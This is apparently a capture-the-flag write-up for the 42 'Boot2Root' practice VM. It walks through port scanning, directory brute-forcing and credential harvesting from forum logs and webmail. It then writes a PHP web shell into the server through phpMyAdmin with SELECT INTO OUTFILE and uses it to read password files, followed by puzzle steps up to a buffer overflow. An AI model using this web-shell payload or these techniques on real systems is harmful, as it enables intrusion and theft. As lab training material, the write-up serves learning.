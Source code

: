  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

We need to understand what we can gain access to and where it is located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap 192.168.99.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100 and that port
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP, we're going to use DIRB to gather information about the file structure.
[DIRB](https://sourceforge.net/projects/dirb/files/)
is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/

-------------------------------------------------------------------------------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

-------------------------------------------------------------------------------------------

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------

Now lets login to phpmyadmin

login: root
password: Fg-'kKXBj87E:aJ$


Following [This tutorial on PHPmyadmin exploitation](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

We're going to inject a php file that allows us to run shell commands within the browser.
By trying the differents subfolders of the forum we finally uncover that phpmydamin has writing rights to templates_c:

```SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";```

"/var/www/html/" because this is where websites are normally stored on a server.


![phpmyadmin](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

---------------------------------------------------------------------------------------------

* Funny thing is we can now navigate the server through the web browser
```https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home/```

From there we uncover the presence of an intersting folder called ***LOOKATME*** inside the home folder that contains a file called password

```https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password```

this gives us the pair: ```lmezard:G!@M6f4Eatau{sF"```

----------------------------------------------------------------------------------------------

Let's try that in the ftp access [ftp!](ftp://192.168.99.100/)

It works !

There's a file called "fun" and README file that says : ```Complete this little challenge and use the result as password for user 'laurie' to login in ssh```

-----------------------------------------------------------------------------------------------

## Puzzles to root access

fun turns out to be an archive, which when uncompressed shows multiples .pcap files (packets captured by a wireshark type sniffer). using ```grep return```  we can get 12 files each containing a character. By ordering the files in ascending order based on the comments values we get: "Iheartpwnage" 
A hint in the fun file also tells us to sha256 the result, which gives: "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"  

We can finally access to laurie's account to the server:

```laurie@192.168.99.100```
"330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
![ssh](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/ssh.png)

------------------------------------------------------------------------------------------------

There we find a README hinting that solving the bomb wil grant us access to thor's shh access

1. Bomb step 1
2. Bomb step 2
3. Bomb step 3
4. Bomb step 4
5. Bomb step 5
6. Bomb step 6

***This finally gets us access to thor's ssh !***

------------------------------------------------------------------------------------------------

Inside there is a file called turtle and a README telling us solving the riddle will grant us zaz's ssh access

The turtle file contains instruction structured like this:

```
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 210 spaces
Recule 210 spaces
Tourne droite de 90 degrees
Avance 120 spaces

Tourne droite de 10 degrees
Avance 200 spaces
Tourne droite de 150 degrees
Avance 200 spaces
Recule 100 spaces
Tourne droite de 120 degrees
Avance 50 spaces

Tourne gauche de 90 degrees
Avance 50 spaces
```

[Turtle](https://docs.python.org/2/library/turtle.html) turns out to be a python module used to draw pictures

By using our provided script, we parse and draw what turns to write "SLASH":

![turtle](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/turtle.png)

We then md5 SLASH in order to get zaz's password: "646da671ca01bb5d84dbb5fb2238dc8e"

------------------------------------------------------------------------------------------------------

After connecting to zaz by ssh, we find a binary file called ***exploit_me***

** Buffer overflow

![disas](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/disas.png)
![system](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/system.png)
![congrats_overflow](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/congrats_overflow.png)



